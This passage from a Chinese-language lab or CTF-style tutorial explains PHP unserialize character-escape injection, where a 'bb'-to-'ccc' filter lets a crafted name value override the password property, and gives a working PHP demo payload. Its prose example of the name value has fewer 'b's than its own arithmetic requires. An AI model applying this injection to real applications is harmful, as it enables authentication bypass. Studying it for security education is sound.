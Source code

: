 所以我们要逃逸的字符串为 `";s:4:"pass";s:5:"admin";}`

![php_unseriablize12](phpUnserialize/s12.png)

按照一个 `bb`转变为 `ccc`会逃逸 `1`个字符，如果我们要逃逸 `26`个字符，那么我们需要 `26`个 `bb`

![php_unseriablize13](phpUnserialize/s13.png)

所以生成的 `name`值为 `bbbbbbbbbbbbbbbbbbbbbbbbbb";s:4:"pass";s:5:"admin";}`

生成 `payload`

```php
<?php

	highlight_file(__FILE__);
	require_once('flag.php');
	function waf($str) {
		return str_replace('bb', 'ccc', $str);
	}

	class A {
		public $name = 'bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb";s:4:"pass";s:5:"admin";}';
		public $pass = '123456';
	}

	echo "<br>serialize a:<br>" . serialize(new A()) . "<br>";
	echo "waf serialize a:<br>" . waf(serialize(new A())) . "<br>";
	$c = unserialize(waf(serialize(new A())));
	if ($c->pass === 'admin') {
		echo $flag;
	} else {
		echo "no no no";
	}
```

![php_unseriablize14](phpUnserialize/s14.png)
